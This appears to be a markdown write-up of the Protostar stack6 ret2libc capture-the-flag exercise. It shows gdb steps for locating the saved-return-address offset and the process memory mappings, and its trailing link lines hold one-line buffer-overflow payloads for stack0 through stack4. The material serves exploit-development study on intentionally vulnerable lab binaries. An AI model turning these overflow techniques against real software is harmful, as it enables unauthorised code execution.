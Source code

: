 


# stack6: ret2libc
------------------------------------------------------------------------
+ Follow the setup-metasploit.md

1. `python -c "print 'A' * 70 + 'BBBBCCCCDDDDEEEEFFFFGGGG'"` > stack6exploit
2. gdb -q stack6
3. gdb> break * getpath
4. gdb> run < stack6exploit
5. gdb> continue
6. I get
   ```
   input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCFFGGDDEEEEFFFFGGGG

   Program received signal SIGSEGV, Segmentation fault.
   0x0000474747474646 in ?? ()
   ```
7. 0x47=G and 0x46=F. Since the address starts with 0000, this is porbably
   the last 6 characters of the string. This means the offest is:
   70 (As) + 18 (rest before the error) = 88

8. pwngbg> regs
   gef>    registers

   ```
   RIP  0x474747474646
   ```
         ^the FFGGGG string has overwrtitten the RIP register

9. gdb> info proc mappings
```
process 38731
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /home/user/protostar/stack6
            0x600000           0x601000     0x1000        0x0 /home/user/protostar/stack6
            0x601000           0x602000     0x1000     0x1000 /home/user/protostar/stack6
            0x602000           0x623000    0x21000        0x0 [heap]
      0x7ffff79e2000     0x7ffff7bc9000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7bc9000     0x7ffff7dc9000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dc9000     0x7ffff7dcd000     0x4000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcd000     0x7ffff7dcf000     0x2000   0x1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcf000     0x7ffff7dd3000     0x4000        0x0 
      0x7ffff7dd3000     0x7ffff7dfc000    0x29000        0x0 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7fcd000     0x7ffff7fcf000     0x2000        0x0 
      0x7ffff7ff8000     0x7ffff7ffb000     0x3000        0x0 [vvar]
      0x7ffff7ffb000     0x7ffff7ffc000     0x1000        0x0 [vdso]
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x29000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x2a000 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]

```


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-5]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print 'A' * 77" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Detailed]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Detailed]: Step-by-Step
